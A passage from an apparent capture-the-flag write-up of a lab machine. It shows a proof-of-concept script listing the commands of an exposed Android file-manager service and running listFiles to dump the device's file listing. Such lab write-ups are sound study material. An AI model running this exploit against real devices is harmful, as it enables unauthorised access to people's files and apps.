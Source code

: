 

#### Script

Having seen how to just interact with the port over `curl`, the script
makes it a bit easier to organize:



    oxdf@parrot$ python poc.py list

    ######################
    # Available Commands #
    ######################

    listFiles: List all the files
    listPics: List all the pictures
    listVideos: List all the videos
    listAudios: List all the audio files
    listApps: List all the apps installed
    listAppsSystem: List all the system apps
    listAppsPhone: List all the phone apps
    listAppsSdcard: List all the apk files in the sdcard
    listAppsAll: List all the apps installed (system apps included)
    getDeviceInfo: Get device info. Package name parameter is needed
    appPull: Pull an app from the device
    appLaunch: Launch an app. Package name parameter is needed
    getAppThumbnail: Get the icon of an app. Package name parameter is needed



Same files come back from `listFile`:



    oxdf@parrot$ python poc.py --cmd listFiles --host 10.10.10.247  
    [*] Executing command: listFiles on 10.10.10.247
    [*] Server responded with: 200
    [
    {"name":"lib", "time":"3/25/20 05:12:02 AM", "type":"folder", "size":"12.00 KB (12,288 Bytes)", }, 
    {"name":"vndservice_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"65.00 Bytes (65 Bytes)", }, 
    {"name":"vendor_service_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
    {"name":"vendor_seapp_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
    {"name":"vendor_property_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"392.00 Bytes (392 Bytes)", }, 
    {"name":"vendor_hwservice_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
    {"name":"vendor_file_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"6.92 KB (7,081 Bytes)", }, 
    ...[snip]...



### Find SSH Password
